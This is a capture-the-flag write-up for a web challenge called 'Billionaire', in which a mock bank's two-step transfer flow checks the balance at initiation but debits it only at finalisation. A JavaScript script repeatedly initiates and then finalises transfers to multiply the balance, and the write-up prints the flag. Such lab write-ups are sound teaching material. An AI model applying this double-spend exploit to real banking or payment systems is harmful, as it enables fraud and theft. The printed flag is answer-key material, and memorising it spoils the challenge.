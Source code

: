 ```yaml
---
title: "Billionaire"
description: "RISC intro2web challenge 5"
pubDate: "Aug 27 2025"
heroImage: "/hero/index-money_Tom_678.webp"
tags: ["cyber", "php", "javascript", "ctf", "exploit"]
---
```


###### [Canonical > RISC](https://writeups.urisc.club/web/5_billionaire/)

## Challenge description

I wanna be a billionaire so f\*cking bad / Buy all of the things I never had

"Billionaire" - Travie McCoy ft Bruno Mars

---

## Approach

At `accounts.php` we see a banner that reads:

> Leftman Brothers Super Secret Club
>
> Locked — requires total balance in a single account of at least $1,000,000,000.00.

So we want to somehow get 1 Billion dollars in our account.

We can create a second checking account at `open_account.php`.

If we transfer some money from our first account to our second, we see that there are two steps to each transfer.

1. `initiate_transfer.php` has us choose the amount and where to send it.
2. `finalise_transfer.php` has us confirm the details.

Initiate transfer wont let us send more money than we have, but doesnt take the money out of our account, this means we can initiate multiple transfers and finalise them all afterwards.

Analysing the network tab in the browser dev tools we can see that:

- `initiate_transfer` needs an account id, account name, and amount. (and a description but we can omit it)
- `finalise_transfer` needs a transfer id (tid)

All of these details can be extracted from the HTML of prior steps.

So if we get our account details from `transfer.php`, initiate multiple transfers to `initiate_transfer`, get the transfer ids, and finalise them all at `finalise_transfer`, we should be able to increase our balance.

### Javascript implementation:

```javascript
const URL = "http://leftmanbrothers.ctf.urisc.club/netbank/";

async function get_accounts() {
	const transfer_page = await fetch(`${URL}transfer.php`);
	const transfer_html = await transfer_page.text();

	const regex = /"(\d+)">\s*((?:LB-)?\d+) — \$(-?[\d,.]+)/g;

	const accounts = [];

	let match;
	while ((match = regex.exec(transfer_html))) {
		accounts.push({
			id: match[1],
			name: match[2],
			balance: parseFloat(match[3].replaceAll(",", "")),
		});
	}

	return accounts;
}

async function post(url, params) {
	const response = await fetch(`${URL}${url}.php`, {
		headers: {
			"content-type": "application/x-www-form-urlencoded",
		},
		body: params,
		method: "POST",
	});

	return await response.text();
}

while (true) {
	const accounts = await get_accounts();

	// account with most money
	let from_account = accounts.reduce((prev, current) =>
		prev.balance > current.balance ? prev : current,
	);

	// any other account
	let to_account = accounts.find((account) => account !== from_account);

	console.log("Balance: " + from_account.balance);
	if (from_account.balance >= 1_000_000_000) {
		console.log("We're rich!");
		break;
	}

	let tids = [];
	// start transaction
	const params = `from_account=${from_account.id}&to_account=${to_account.name}&amount=${from_account.balance}`;
	for (let i = 0; i < 3; i++) {
		const html = await post("initiate_transfer", params);
		const match = html.match(/"tid" value="(\d+)"/);
		const tid = match[1];
		tids.push(tid);
	}

	// finalize transactions
	for (let i = 0; i < 3; i++) {
		const params = `tid=${tids[i]}`;
		await post("finalise_transfer", params);
	}
}
```

Returning to `accounts.php`, we can see the banner has changed:

> Congratulations, high roller. Your access is unlocked.
>
> Club Password: RISC{livin_the_luxury_lifestyle_fr_fb3c001ee2725c0c3f5e3a39059f75c6}

Our flag is:

```
RISC{livin_the_luxury_lifestyle_fr_fb3c001ee2725c0c3f5e3a39059f75c6}
```
